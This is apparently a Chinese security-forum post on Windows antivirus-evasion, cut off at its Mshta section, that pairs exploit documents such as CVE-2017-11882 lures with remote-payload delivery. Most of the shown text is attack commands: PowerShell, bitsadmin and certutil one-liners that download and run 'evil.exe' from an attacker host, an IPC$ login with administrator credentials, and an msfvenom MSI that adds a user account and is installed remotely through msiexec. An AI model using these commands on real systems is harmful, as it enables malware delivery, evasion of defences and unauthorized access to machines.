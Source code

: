 

# Windows "外置"免杀思路 - 先知社区

Windows "外置"免杀思路

- - -

## Windows "置外"免杀应用

  红队或真实案件，经常以文件构造诱饵，如精心构造 cve-2017-11882，以达到突破外网。同理可以反制，中高交互蜜罐中可部署大量文档类型 exp，填充 Shellcode 执行反制。  
  Windows 下可执行文件，包含 word/chm/iqy/sql 等，从 APT 思维出发，杀伤链武器构造/载荷投递环节利用和反制。

### 环境&CMD 远控

```bash
1. 010 工具 (windows16 进制修改)，Nodepad(记事本) 也是可以解析 rtf 格式。
2. Windows 平台&符合 CVE 适用的 Office 版本。
3. Exp 可以执行 Cmd 命令，Cmd 下载执行回连几种常用技术分享。
```

#### Powershell

```bash
cmd.exe /c "powershell(new-object System.Net.WebClient).
DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')"
```

#### Bitsadmin

```bash
cmd.exe /c "bitsadmin /transfer n http://192.168.28.128/imag/evil.txt %tmp%\1.exe  & %tmp%\1.exe"
```

#### Certutil

```bash
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php
```

#### Ipc

```bash
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"
```

#### Msfvenom

```bash
1. 利用 msf 生成 msi 包
msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi
2. cmd 执行 - 可回连
msiexec /q /i http://192.168.28.128/evil.msi
```

#### Mshta
